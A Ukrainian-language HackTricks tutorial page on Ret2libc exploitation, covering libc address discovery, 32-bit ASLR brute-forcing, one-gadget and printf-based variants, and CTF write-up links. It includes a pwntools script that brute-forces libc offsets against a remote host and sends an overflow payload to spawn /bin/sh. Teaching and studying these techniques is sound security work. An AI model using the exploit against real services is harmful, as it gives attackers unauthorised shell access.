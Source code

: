 # Ret2lib

{{#include ../../../banners/hacktricks-training.md}}

## **Основна інформація**

Суть **Ret2Libc** полягає в перенаправленні потоку виконання вразливої програми до функції в загальній бібліотеці (наприклад, **system**, **execve**, **strcpy**) замість виконання shellcode, наданого атакуючим, в стеку. Атакуючий створює payload, який модифікує адресу повернення в стеку, щоб вказати на потрібну функцію бібліотеки, одночасно забезпечуючи правильну настройку будь-яких необхідних аргументів відповідно до конвенції виклику.

### **Приклад кроків (спрощено)**

- Отримати адресу функції, яку потрібно викликати (наприклад, system) та команду для виклику (наприклад, /bin/sh)
- Згенерувати ROP-ланцюг для передачі першого аргументу, що вказує на рядок команди, та потоку виконання до функції

## Знаходження адрес

- Припустимо, що `libc`, яка використовується, є тією, що на поточній машині, ви можете знайти, де вона буде завантажена в пам'ять за допомогою:
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
Якщо ви хочете перевірити, чи змінює ASLR адресу libc, ви можете зробити:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
- Знаючи використовувану libc, також можна знайти зсув до функції `system` за допомогою:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
- Знаючи використовувану libc, також можна знайти зсув до рядка `/bin/sh` функції за допомогою:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Використання gdb-peda / GEF

Знаючи використовувану libc, також можливо використовувати Peda або GEF, щоб отримати адреси функції **system**, функції **exit** та рядка **`/bin/sh`** :
```bash
p system
p exit
find "/bin/sh"
```
### Використання /proc/\<PID>/maps

Якщо процес створює **дочірні** процеси щоразу, коли ви з ним спілкуєтеся (мережевий сервер), спробуйте **прочитати** цей файл (можливо, вам потрібно буде бути root).

Тут ви можете знайти **точно, де завантажено libc** всередині процесу і **де воно буде завантажено** для кожного дочірнього процесу.

![](<../../../images/image (853).png>)

У цьому випадку воно завантажено в **0xb75dc000** (Це буде базова адреса libc)

## Невідома libc

Можливо, ви **не знаєте, яку libc завантажує бінарник** (оскільки вона може бути розташована на сервері, до якого у вас немає доступу). У такому випадку ви можете зловживати вразливістю, щоб **витягти деякі адреси та дізнатися, яка бібліотека libc** використовується:


{{#ref}}
rop-leaking-libc-address/
{{#endref}}

І ви можете знайти шаблон pwntools для цього в:


{{#ref}}
rop-leaking-libc-address/rop-leaking-libc-template.md
{{#endref}}

### Визначення libc з 2 зсувами

Перевірте сторінку [https://libc.blukat.me/](https://libc.blukat.me/) і використовуйте **кілька адрес** функцій всередині libc, щоб дізнатися **використовувану версію**.

## Обхід ASLR на 32 бітах

Ці атаки методом перебору є **корисними лише для 32-бітних систем**.

- Якщо експлойт локальний, ви можете спробувати методом перебору знайти базову адресу libc (корисно для 32-бітних систем):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- Якщо ви атакуєте віддалений сервер, ви можете спробувати **вгадати адресу функції `libc` `usleep`**, передаючи в якості аргументу 10 (наприклад). Якщо в якийсь момент **сервер відповідає на 10 секунд довше**, ви знайшли адресу цієї функції.

## One Gadget

Виконайте shell, просто стрибнувши на **одну** конкретну **адресу** в libc:

{{#ref}}
one-gadget.md
{{#endref}}

## x86 Ret2lib Code Example

У цьому прикладі брутфорс ASLR інтегровано в код, а вразливий бінарний файл розташований на віддаленому сервері:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Code Example

Перевірте приклад з:


{{#ref}}
../
{{#endref}}

## ARM64 Ret2lib Example

У випадку ARM64 інструкція ret переходить до того, куди вказує реєстр x30, а не до того, куди вказує стековий реєстр. Тому це трохи складніше.

Також в ARM64 інструкція виконує те, що вона виконує (неможливо перейти в середині інструкцій і перетворити їх на нові).

Перевірте приклад з:


{{#ref}}
ret2lib-+-printf-leak-arm64.md
{{#endref}}

## Ret-into-printf (or puts)

Це дозволяє **витікати інформацію з процесу** шляхом виклику `printf`/`puts` з деякими специфічними даними, розміщеними як аргумент. Наприклад, якщо помістити адресу `puts` у GOT під час виконання `puts`, це **викриє адресу `puts` у пам'яті**.

## Ret2printf

Це в основному означає зловживання **Ret2lib, щоб перетворити його на вразливість форматних рядків `printf`** за допомогою `ret2lib`, щоб викликати printf з значеннями для експлуатації (звучить безглуздо, але можливо):


{{#ref}}
../../format-strings/
{{#endref}}

## Other Examples & references

- [https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html)
- Ret2lib, надаючи витік адреси функції в libc, використовуючи один гаджет
- [https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html)
- 64 біт, ASLR увімкнено, але без PIE, перший крок - заповнити переповнення до байта 0x00 канарки, щоб потім викликати puts і витікати його. З канаркою створюється ROP гаджет для виклику puts, щоб витікати адресу puts з GOT, а потім ROP гаджет для виклику `system('/bin/sh')`
- [https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html)
- 64 біти, ASLR увімкнено, без канарки, переповнення стека в main з дочірньої функції. ROP гаджет для виклику puts, щоб витікати адресу puts з GOT, а потім виклик одного гаджета.
- [https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html)
- 64 біти, без pie, без канарки, без relro, nx. Використовує функцію write, щоб витікати адресу write (libc) і викликає один гаджет.
- [https://guyinatuxedo.github.io/14-ret_2_system/asis17_marymorton/index.html](https://guyinatuxedo.github.io/14-ret_2_system/asis17_marymorton/index.html)
- Використовує форматний рядок, щоб витікати канарку зі стека, і переповнення буфера, щоб викликати system (вона в GOT) з адресою `/bin/sh`.
- [https://guyinatuxedo.github.io/14-ret_2_system/tu_guestbook/index.html](https://guyinatuxedo.github.io/14-ret_2_system/tu_guestbook/index.html)
- 32 біти, без relro, без канарки, nx, pie. Зловживає поганим індексуванням, щоб витікати адреси libc і купи зі стека. Зловживає переповненням буфера, щоб зробити ret2lib, викликаючи `system('/bin/sh')` (адреса купи потрібна для обходу перевірки).

{{#include ../../../banners/hacktricks-training.md}}
